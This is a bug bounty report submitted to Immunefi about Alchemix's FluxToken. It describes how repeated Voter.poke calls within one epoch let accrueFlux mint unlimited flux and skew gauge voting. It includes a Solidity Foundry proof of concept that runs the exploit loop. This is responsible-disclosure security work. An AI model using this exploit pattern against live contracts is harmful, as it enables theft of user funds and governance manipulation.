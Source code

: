 
# FluxToken's unlimited mint and Exploitation of gauge voting results using it

Submitted on Mon May 20 2024 22:17:49 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31541

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Theft of unclaimed yield

## Description
## Brief/Intro
FluxToken's unlimited mint and Exploitation of gauge voting results using it

## Vulnerability Details
1. The Poke function can be executed several times within an epoch.
2. The poke function calls Voter._vote function and _vote function calls `IFluxToken(FLUX).accrueFlux(_tokenId)`.

`FluxToken.accrueFlux`
```
/// @inheritdoc IFluxToken
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
This function does not check for multiple calls within one epoch.

## Impact Details
### 1.  mint a substantial quantity of flux tokens
As soon as a user calls the poke function, the value of unclaimedFlux increases. Consequently, an attacker can obtain an unlimited amount of flux tokens. The attackers can wait until their locked bpt expires and then withdraw, enabling them to mint a substantial quantity of flux tokens.

Alternatively, they can withdraw before expiration. In this case, the profits gained by the attacker far outweigh any applicable penalties.

### 2. Secure the majority of the reward tokens
Simultaneously, the attacker can use the acquired flux tokens to obtain a significant voting boost. As a result, the attacker can secure the majority of the reward tokens.

## Recommendation

According to the epoch, it is necessary to modify the acrueFlux function so that users can receive flux for each epoch.
        
## Proof of concept
## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    // An attacker can use Voter.accrueFlux function to mint the fluxToken indefinitely.
    function testBugAccrueFlux() public {
        address attacker = beef;
        uint256 tokenId = createVeAlcx(attacker, TOKEN_100K, MAXTIME, false);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;


        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        hevm.warp(newEpoch());
        voter.distribute();

        console.log("before flux amount: ", flux.balanceOf(attacker));

        {
            hevm.startPrank(attacker);

            uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
            uint256 oldUnclaimedFlux = unclaimedFlux;
            console.log("unclaimedFlux: ", unclaimedFlux);

            // designed max totalPower
            uint256 totalPower = veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId);

            console.log("correct max totalPower: ", totalPower);

            for(uint256 i; i < 5; i++) {
                voter.poke(tokenId);
                unclaimedFlux = flux.getUnclaimedFlux(tokenId);
                console.log("unclaimedFlux: ", unclaimedFlux);
            }

            hevm.warp(newEpoch());
            voter.distribute();

            console.log("correct max totalPower: ", veALCX.balanceOfToken(tokenId) + oldUnclaimedFlux + veALCX.claimableFlux(tokenId));

            console.log("misused max totalPower: ", veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId));

            voter.vote(tokenId, pools, weights, unclaimedFlux + veALCX.claimableFlux(tokenId));

            hevm.warp(newEpoch());
            voter.distribute();

            //It takes a considerable amount of time to implement this block, so I blocked it for now.
            //If is not enough due to the current code, you can open and run the blocked code.
            {
//            hevm.warp(block.timestamp + MAXTIME);
//
//            veALCX.startCooldown(tokenId);
//
//            hevm.warp(block.timestamp + 1 weeks + 1);
//
//            voter.reset(tokenId);
//            veALCX.withdraw(tokenId);
//            console.log("after flux amount:  ", flux.balanceOf(attacker));
            }
            hevm.stopPrank();
        }
        
    }
}
```